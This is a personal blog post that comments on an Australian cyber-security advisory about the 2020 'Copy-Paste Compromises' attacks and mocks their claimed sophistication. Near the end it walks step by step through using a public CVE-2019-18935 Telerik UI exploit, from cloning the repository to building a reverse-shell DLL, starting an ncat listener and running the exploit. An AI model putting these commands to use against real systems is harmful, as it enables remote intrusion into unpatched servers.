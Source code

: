 ```yaml
---
title: Copy-Paste Compromises
thumbnail: copypaste-compromises-thumb.png
---
```


Today I woke up to an organisation-wide email telling me that "Australia is currently being hit by a cyber-attack which is targeting all levels of government, political parties and private businesses". Hey that sounds fun, so I look at the news and see this headline: "[Cyber-attack Australia: sophisticated attacks from ‘state-based actor’, PM says](https://www.theguardian.com/australia-news/2020/jun/19/australia-cyber-attack-attacks-hack-state-based-actor-says-australian-prime-minister-scott-morrison)."

Ok so the government said it. Now as weird as it may seem, this is the first thing I thought when I read that: "Oh so it's probably bullshit then". Our government (but mostly a certain party) has a bad track record of calling things cyber attacks. Back in 2016 they blamed a DDoS attack on taking down the ABS Census website[^1], when in reality people where just, you know... **using it**.

Apparently we invest absolutely nothing in our technology infrastructure, because these absolute mad lads went and blamed another failure on a DDoS attack earlier this year. This time it was people trying to register for Centrelink[^2], which is a little worse then people unable to fill out census forms as instead it affects people who have lost their jobs due to a certain global pandemic and need support.

And while not directly related to cyber security, let me remind you about the NBN. What a bloody farce. Any time the Coalition starts talking about techonology (or anything, really), my brain immediately starts shutting down in fear of getting an aneurysm.

But back to the topic on-hand, unfortunately, or fortunately for me because I seem to enjoy reading postmortems, this time it's actually a cyber attack. According to the previous article: "we know it is a sophisticated state-based cyber actor because of the scale and nature of the targeting and the tradecraft used."

I won't comment about the "state-based cyber actor", because even though they won't say who it is, it's pretty obvious. So we will take that part out and instead look at how it was "sophisticated [...] because of the scale and nature of the targeting and the tradecraft used." Sophisticated huh? That's interesting.

The Australian Cyber Security Centre’s (ACSC) published an advisory that details the tactics, techniques and procedures (TTPs) identified during the investigation of this attack. You can read the summary [here](https://www.cyber.gov.au/threats/advisory-2020-008-copy-paste-compromises-tactics-techniques-and-procedures-used-target-multiple-australian-networks). But I'm going to look more at the [PDF](https://www.cyber.gov.au/sites/default/files/2020-06/ACSC-Advisory-2020-008-Copy-Paste-Compromises.pdf) that goes into more detail.

Immediately we read that "the title ‘Copy-Paste Compromises’ is derived from the actor’s heavy use of proof of concept exploit code, web shells and other tools copied almost identically from open source."

Oh no, I'm already spotting a few red flags with this. Let's read that again with a focus on the important parts.

> Heavy use of proof of concept exploit code [...] copied almost identically from open source.

Now look, I didn't expect it to be Stuxnet 2: Electric Boogaloo and have a million zero days, but these are not the words we should be reading when we are looking for a "sophisticated" cyber attack. And it's a little concering that the Australian government (and some businesses, but I expect them to have crap security anyway) are not able to defend against well known, open source vulnerabilities enacted by what seems to be a bunch of script kiddies.

But to be fair, it looks like most of the initial access actually comes from spearphishing people, which is a hard thing to defend against. It's more about education and telling people to stop being stupid than it is about securing your infrastructure. However, I consider social engineering to be cheating because I have social anxiety and am unable to do it, so I'm going to ignore it.

Instead let's look at "exploitation of public facing infrastructure—primarily through the use of remote code execution vulnerability in unpatched versions of Telerik UI." They cite CVE-2019-18935: "Telerik UI - Remote Code Execution via Insecure Deserialization" as one of the most common exploits used.

Telerik UI for ASP.NET AJAX is a widely used suite of UI components for web applications. It seems `RadAsyncUpload`, a file handler in Telerik UI for ASP.NET AJAX that enables uploading files asynchronously, insecurely deserializes JSON objects in a manner that results in arbitrary remote code execution on the software's underlying host.[^3]

The basic idea of the exploit is that you upload a "mixed mode assembly" DLL using Telerkit UI and specifying it as a "gaget", which is "a class within the executing scope of the application that, as a side effect of being instantiated and modified via setters or field assignment, has special properties that make it useful during deserialization."

Yeah I don't really know what any of that is either. Anyway, then some funky stuff happens when it attemps to deserialise it and bing bong, you got yourself remote code execution. This is a pretty common way of RCE and probably should have been found eariler, so RadAsyncUpload seems more like **Bad**AsyncUpload to me! Hah!

...

Ok moving on.

In case you are not aware of how easy it is to use exploits like these and because I want to pad this post out, let's take a look at the steps you need to do the exploit:

1. Download the repo:

```
git clone https://github.com/noperator/CVE-2019-18935.git && cd CVE-2019-18935
```

2. Install the Python environment.

```
python3 -m venv env
source env/bin/activate
pip3 install -r requirements.txt
```

3. Build the reverse shell that they provide for you (need Visual Studio installed).

```
sed -i .bu 's/<HOST>/<HOST>/; s/<PORT>/<PORT>/' rev_shell.c
build_dll.bat rev_shell.c
```

4.  Setup Netcat for callback.

```
sudo ncat -lvp <PORT>
```

4. Run the thing.

```
python3 CVE-2019-18935.py -u <HOST>/Telerik.Web.UI.WebResource.axd?type=rau -v <VERSION> -f 'C:\Windows\Temp' -p sleep_2019121205271355_x86.dll
```

You can practically copy and paste all of this as there were only three things you needed to change:

- The `<HOST>` param: Obviously you need to specify what host your attacking.
- The `<PORT>` param: The port you'll be listening on for the reverse shell.
- The `<VERSION>` param: This is the version of Telerik UI that is being used as newer version have been patched. You can normally find what version it is by checking the HTML, otherwise you can brute-force it.

Most of the time, you'd make your own reverse shell and tailor it for your victim (if you're any good, I never do it because I'm lazy and stupid). But the report says that "most common payloads used by the actor were copies of public proof of concept exploit code for a sleep test and reverse shell binary" which are exactly the ones we just looked at (step 3).

There's way more in the other sections like Privilege Escalation, Credential Access, etc. But I just wanted a quick look at how "sophisticated" the attack was. And it turns out to be pretty average if I'm to be honest.

This is why I don't do infosec content anymore, it's pretty boring just running the exploits and instead all the fun comes from making/finding them. But I can't do that stuff cus I'm dumb.

Moral of the story: patch your systems and stay in school.

---

[^1]: https://theconversation.com/did-the-census-really-suffer-a-denial-of-service-attack-63755
[^2]: https://www.theguardian.com/australia-news/2020/mar/23/incompetence-attack-mygov-website-did-not-crash-because-of-ddos-cyber-assault-as-stuart-robert-claimed
[^3]: https://know.bishopfox.com/research/cve-2019-18935-remote-code-execution-in-telerik-ui
